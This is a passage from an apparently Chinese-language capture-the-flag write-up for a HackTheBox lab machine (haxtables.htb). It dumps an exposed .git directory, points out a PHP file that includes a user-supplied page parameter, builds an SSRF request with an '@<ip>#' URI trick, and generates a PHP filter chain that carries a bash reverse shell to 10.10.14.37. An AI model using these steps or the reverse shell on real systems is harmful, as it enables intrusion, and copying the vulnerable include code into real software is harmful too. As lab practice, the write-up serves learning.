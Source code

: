 然后用 `uvicorn` 命令 `uvicorn proxy:app --reload` 此时反向代理的服务提供在8000

然后使用 `git-dumper` 去获取对应的git仓库的内容：

`git-dumper [http://127.0.0.1:8000/var/www/image/.git](http://127.0.0.1:8000/var/www/image/.git) git-dumper/`

探索目录，目前为止发现比较有用的就是 `action_handler.php` 下的内容：

```python
<?php

include_once 'utils.php';

if (isset($_GET['page'])) {
    $page = $_GET['page'];
    include($page);

} else {
    echo jsonify(['message' => 'No page specified!']);
}

?>
```

访问对应的url地址： `http://image.haxtables.htb/actions/action_handler.php` 发现是403

## URI

### 构造 handler.php请求

![20230423](https://raw.githubusercontent.com/1dayluo/PicGo4Blog/main/2023_4/20230423_2.png)

根据URI的结构，刚刚`../api/utils.php` 的代码下的函数 `make_api_call` 的内容：

```python
 $url = 'http://api.haxtables.htb' . $uri_path . '/index.php';
```

可以通过构造 `$uri_path` 的格式为 `@<ip>#` 来使服务器请求发送至 `<ip>` 而不是前者 

![20230423](https://raw.githubusercontent.com/1dayluo/PicGo4Blog/main/2023_4/20230423_3.png)

![20230423](https://raw.githubusercontent.com/1dayluo/PicGo4Blog/main/2023_4/20230423_4.png)

### 构造poc

用 https://github.com/synacktiv/php_filter_chain_generator 来构造..（备注：留坑，自己完了康康代码实现吧）

```python
python php_filter_chain_generator.py  --chain '<?php system("bash -c \"bash -i >& /dev/tcp/10.10.14.37/2333 0>&1 \""); ?>'
```

然后在 [`http://10.10.11.198/handler.php`](http://10.10.11.198/handler.php) 上发起请求，其中 `@image.haxtables.htb/actions/action_handler.php?page=` page后参数为生成的poc，这里是任意文件包含的入口点
